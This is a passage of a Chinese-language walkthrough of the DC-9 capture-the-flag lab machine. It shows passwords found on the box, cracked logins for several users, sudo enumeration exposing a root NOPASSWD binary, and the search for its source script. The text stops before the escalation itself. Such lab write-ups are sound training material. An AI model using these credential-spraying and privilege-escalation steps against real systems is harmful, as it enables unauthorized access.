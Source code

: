 登录之前收集到的 `janitor/Ilovepeepee` 用户，发现一些密码

```bash
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

同样把它们加入到 密码本

我们放到 `password.list` 中继续爆破尝试，发现多了两个用户，

```
 login: joeyt   password: Passw0rd
 login: janitor   password: Ilovepeepee
 login: chandlerb   password: UrAG0D!
 login: fredf   password: B4-Tru3-001

```

我们登录 `fredf`，看看 fredf 用户可以`NO Passwd`执行哪些 root 权限的文件

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

观察 test 文件

```
-rwxr-xr-x 1 root root 1212968 Dec 29  2019 test
```

运行看看，提示使用 python test.py 加参数 运行！好像是 test.py 文件编译成的 可执行程序

```bash
fredf@dc-9:/opt/devstuff/dist/test$ ./test
Usage: python test.py read append
```

```bash
fredf@dc-9:/opt/devstuff/dist/test$ file test
test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
```

于是全村寻找 `test.py`

```bash
fredf@dc-9:/opt/devstuff/dist/test$ find / -name "test.py" 2>/dev/null
/opt/devstuff/test.py
```
